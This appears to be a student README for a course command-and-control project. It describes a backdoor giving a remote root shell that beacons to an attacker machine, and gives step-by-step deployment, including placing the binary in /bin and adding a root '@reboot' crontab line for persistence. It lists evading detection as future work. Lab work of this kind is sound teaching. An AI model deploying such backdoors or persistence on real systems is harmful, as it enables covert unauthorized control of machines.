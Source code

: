 # C S 378 - Command and Control Project (Donald and Vincent)

Currently implements:
* Remote shell access (However, commands don't persist across different calls)
* Authentification (symmetric key encryption)
* Persistence (cronjob that activates every reboot)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod +x backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

## Still Need to Work On:

* Evading detection
* Write-up
* Need to fix the prompt format being sent over
* Maybe figure out how to fix remote shell (or maybe ask Dr. Hintz if what we have is okay)
* Detection script (extra credit, but maybe not that hard?)
* Sometimes connection breaks in certain situations, fix these bugs
  * like when running **_cat /bin/ls_** Looks like something is wrong with trying to encode/decode the characters in the file


